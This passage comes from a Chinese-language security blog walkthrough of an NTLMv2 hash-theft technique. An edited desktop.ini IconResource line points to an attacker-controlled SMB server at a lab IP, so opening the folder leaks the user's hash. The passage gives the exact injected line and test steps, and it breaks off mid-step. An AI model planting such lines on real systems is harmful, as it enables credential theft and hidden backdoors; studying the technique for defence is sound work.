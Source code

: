 **注：**

IconResource指向伪造文件服务器，SHELL32.dll不存在

#### 2、在伪造文件服务器上使用wireshark进行抓包

#### 3、客户端访问正常文件服务器

#### 4、伪造文件服务器获得客户端本机当前用户的NTLMv2 Hash

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-1-23/3-1.png)

通过这种方式，相比于scf文件，隐蔽性更高

## 0x05 文件夹图标后门
---

原理同上，更改系统文件夹的配置文件desktop.ini，当用户打开指定文件夹时，将本机当前用户的NTLMv2 Hash发送至伪造文件服务器

默认情况下，系统常见文件夹下包含配置文件desktop.ini，例如文件夹`Program Files`，desktop.ini内容如下：

```
[.ShellClassInfo]
LocalizedResourceName=@%SystemRoot%\system32\shell32.dll,-21781
```

尝试对其修改，添加如下内容：

```
IconResource=\\192.168.62.130\test\SHELL32.dll,4
```

**注：**

需要管理员权限

测试成功

### 实际测试：

客户端IP: 192.168.62.139

伪造文件服务器IP： 192.168.62.130

#### 1、修改客户端文件，路径为C:\Program Files\desktop.ini，添加内容

```
IconResource=\\192.168.62.130\test\SHELL32.dll,4
```

**注：**

IconResource指向伪造文件服务器，SHELL32.dll不存在

#### 2、在伪造文件服务器上使用wireshark进行抓包

#### 3、客户端访问文件夹c:\
